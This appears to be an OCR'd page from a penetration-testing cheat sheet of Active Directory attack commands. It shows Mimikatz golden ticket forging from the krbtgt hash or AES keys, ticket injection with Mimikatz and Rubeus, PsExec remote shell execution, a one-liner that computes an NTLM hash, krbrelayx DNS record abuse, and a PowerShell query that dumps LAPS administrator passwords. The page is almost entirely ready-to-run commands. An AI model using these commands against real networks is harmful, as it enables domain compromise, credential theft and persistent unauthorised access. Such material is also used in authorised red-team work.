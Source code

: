 **Generate TGT with NTLM**

```c
mimikatz # kerberos::golden /domain:<DOMAIN>/sid:<SID> /rc4:<KRBTGT_NTLM_HASH> /user:<USERNAME>
```

**Generate TGT with AES 128bit Key**

```c
mimikatz # kerberos::golden /domain:<DOMAIN>/sid:<SID> /aes128:<KEY> /user:<USERNAME>
```

**Generate TGT with AES 256bit Key (More secure Encryption, probably more stealth due is it used by Default)**

```c
mimikatz # kerberos::golden /domain:<DOMAIN>/sid:<SID> /aes256:<KEY> /user:<USERNAME>
```

**Inject TGT with Mimikatz**

```c
mimikatz # kerberos::ptt <KIRBI_FILE>
```

**Rubeus Examples**

**Inject Ticket with Rubeus**

```c
C:\> .\Rubeus.exe ptt /ticket:<KIRBI_FILE>
```

**Execute CMD on Remote Host**

```c
C:\> .\PsExec.exe -accepteula \\<RHOST> cmd
```

**Get NTLM from Password**

```c
$ python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<PASSWORD>".encode("utf-16le")).digest())'
```

### Krbrelayx

> https://github.com/dirkjanm/krbrelayx

#### Abuse DNS Delegation Zones with dnstool.py

```c
$ python3 dnstool.py -u 'domain\<USERNAME>' -p '<PASSWORD>' -a add -r '<TO_ABUSE>.<DOMAIN>' -d <LHOST> <RHOST>
```

### LAPS

```c
PS C:\Users\<USERNAME>\Documents> $Computers = Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd,ms-Mcs-AdmPwdExpirationTime
PS C:\Users\<USERNAME>\Documents> $Computers | Sort-Object ms-Mcs-AdmPwdExpirationTime | Format-Table -AutoSize Name, DnsHostName, ms-Mcs-AdmPwd, ms-Mcs-Adm-PwdExpirationTime
```
